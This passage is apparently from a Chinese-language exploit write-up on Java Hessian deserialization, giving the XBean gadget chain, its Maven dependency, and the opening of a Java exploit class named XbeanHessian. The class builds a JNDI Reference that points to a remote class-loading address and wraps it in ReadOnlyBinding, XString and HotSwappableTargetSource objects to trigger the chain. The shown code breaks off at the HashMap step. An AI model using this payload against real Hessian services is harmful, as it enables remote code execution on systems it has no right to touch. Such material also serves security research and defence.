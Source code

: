 ### XBean 链

依赖

```plain
<dependency>
    <groupId>org.apache.xbean</groupId>
    <artifactId>xbean-naming</artifactId>
    <version>4.24</version>
</dependency>
```

#### 利用链

```plain
NamingManager.getObjectFactoryFromReference() (javax.naming.spi)
NamingManager.getObjectInstance() (javax.naming.spi)
ContextUtil.resolve()   (org.apache.xbean.naming.context)// 关键点
ContextUtil$ReadOnlyBinding.getObject() (org.apache.xbean.naming.context)// 关键点
Binding.toString() (com.caucho.naming)     // 关键点
XString.equals() (com.sun.org.apache.xpath.internal.objects)
HotSwappableTargetSource.equals()
HashMap.putVal()
HashMap.put()
MapDeserializer.readMap()
SerializerFactory.readMap()
Hessian2Input.readObject()
```

#### EXP

```plain
package org.dili.hessian;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.caucho.hessian.io.SerializerFactory;
import com.sun.org.apache.xpath.internal.objects.XString;
import org.apache.xbean.naming.context.WritableContext;
import org.springframework.aop.target.HotSwappableTargetSource;
import javax.naming.Context;
import javax.naming.Reference;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.util.HashMap;

public class XbeanHessian {
    public static void main(String[] args) throws Exception {
        String refAddr = "http://127.0.0.1:8888/";
        String refClassName = "test";

        Reference ref = new Reference(refClassName, refClassName, refAddr);
        WritableContext writableContext = new WritableContext();

        // 创建ReadOnlyBinding对象
        String classname = "org.apache.xbean.naming.context.ContextUtil$ReadOnlyBinding";
        Object readOnlyBinding = Class.forName(classname).getDeclaredConstructor(String.class, Object.class, Context.class).newInstance("aaa", ref, writableContext);

        // 创建XString
        XString xString = new XString("bbb");

        HotSwappableTargetSource targetSource1 = new HotSwappableTargetSource(readOnlyBinding);
        HotSwappableTargetSource targetSource2 = new HotSwappableTargetSource(xString);

        //创建HashMap
```